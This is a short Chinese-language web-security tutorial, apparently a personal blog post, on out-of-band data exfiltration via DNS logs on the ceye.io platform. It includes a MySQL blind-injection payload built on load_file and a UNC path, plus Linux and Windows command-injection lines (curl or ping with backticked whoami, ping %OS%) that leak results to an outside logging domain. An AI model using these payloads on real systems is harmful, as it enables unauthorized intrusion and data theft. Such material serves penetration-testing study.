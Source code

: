 ```yaml
---
title: "利用 dnslog 回显"
date: 2018-02-10T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['dnslog']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



DNS 在解析的时候会留下日志, 通过读取多级域名的解析日志, 来获取信息

简单来说就是把信息放在二级域名中, 传递到自己这, 然后读取日志, 获取信息

利用 dnslog 可以回显 sql 盲注的数据、命令执行的结果等

<!--more-->

知道创宇的 dnslog 平台

`ceye.io`

登录之后 右上角 Profile

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915368.jpg)

Identifier 就是 dnslog 测试地址

访问 test.xxxx.ceye.io

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915418.jpg)

后台 dnslog 记录

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915447.jpg)

# SQL 盲注

以 mysql 为例

`load_file('\\\\xxxx.com\\')`

可以发起网络请求

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915501.jpg)

记录

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915511.jpg)

盲注

`and if((select load_file(concat('\\\\',(PAYLOAD),'.xxoo.ceye.io\\abc'))),1,1)`

因为不能直接 id=1 and select xxx 就用 if 来执行

PAYLOAD 记得写上 limit

# 命令执行

## linux

执行反引号内的内容并作为结果输出

`curl [反引号]whoami[反引号].xxxx.ceye.io`

`ping [反引号]whoami[反引号].xxxx.ceye.io`

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915697.jpg)

dnslog

![](http://exp10it-1252109039.cossh.myqcloud.com/2018/02/06/1517915704.jpg)

## windows

感觉鸡肋啊…

`ping %OS%.xxoo.ceye.io`

`%OS% 操作系统名称`